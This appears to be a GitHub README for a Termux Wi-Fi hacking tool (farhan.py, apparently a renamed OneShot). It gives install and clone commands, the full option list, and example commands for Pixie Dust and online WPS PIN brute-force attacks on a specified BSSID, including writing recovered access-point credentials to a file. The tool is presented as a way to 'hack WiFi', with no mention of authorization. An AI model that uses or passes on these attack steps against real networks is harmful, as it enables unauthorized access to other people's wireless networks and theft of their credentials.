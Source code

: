 ## Rox_Fi

### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://k.top4top.io/p_2825ur3eq0.jpg
## [Termux](https://termux.com/)
Please note that root access is required.  

### Manually
**Installing requirements**

$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw openssl

### Getting WifiHack

$ git clone https://github.com/Gtajisan/farhan-wifihack

### Running

$ cd farhan
$ chmod +x farhan.py

### One line Command
$ sudo python farhan.py --help

```

# Usage
```
 farhan.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

#### Example : `sudo python farhan.py -i wlan0 -K`

#### Note: ( need root)

**First turn off your Wifi.**

- Show avaliable networks and start Pixie Dust attack on a specified network.

- `sudo python farhan.py -i wlan0 -K`

- - Start Pixie Dust attack on a specified BSSID:

`sudo python farhan.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`

- Launch online WPS bruteforce with the specified first half of the PIN:

- `sudo python farhan.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`

### Troubleshooting

#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running WifiHack with the `--mtk-wifi` flag to initialize Wi-Fi device driver.
## thanks for tools use
## advance thanks my friends 
## ## [Facebook](https://www.facebook.com/profile.php?id=100094924471568&mibextid=ZbWKwL)

## [Whatsapp](https://wa.me/+880130505723*)

## Thanks For Using This Tool 🐸🙄

